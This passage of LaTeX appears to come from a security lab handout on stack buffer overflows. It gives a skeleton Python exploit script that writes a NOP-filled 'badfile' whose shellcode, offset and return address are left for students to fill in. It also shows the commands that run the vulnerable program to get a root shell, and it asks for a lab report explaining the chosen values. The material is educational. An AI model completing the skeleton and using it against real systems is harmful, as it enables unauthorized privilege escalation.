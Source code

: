 \begin{lstlisting}[language=python, caption={\texttt{exploit.py}}]
#!/usr/bin/python3
import sys

shellcode= (
  ""                    # (*@\needtochange@*)
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517))

##################################################################
# Put the shellcode somewhere in the payload
start = 0               # (*@\needtochange@*)
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
# and put it somewhere in the payload
ret    = 0x00           # (*@\needtochange@*)
offset = 0              # (*@\needtochange@*)

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little')
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
\end{lstlisting}


After you finish the above program, run it. This will generate
the contents for \texttt{badfile}. Then run the vulnerable 
program {\tt stack}. If your exploit is implemented correctly, you should 
be able to get a root shell:  


\begin{lstlisting}
$./exploit.py     // create the badfile
$./stack-L1       // launch the attack by running the vulnerable program
# <---- Bingo! You've got a root shell! 
\end{lstlisting}

In your lab report, in addition to providing screenshots to demonstrate
your investigation and attack, 
you also need to explain how the values used in your 
\texttt{exploit.py} are decided. These values are the most 
important part of the attack, so a detailed explanation can help
the instructor grade your report. Only demonstrating a successful
attack without explaining why the attack works will not 
receive many points. 



\section{Task 4: Launching Attack on 64-bit Program (Level 2)}


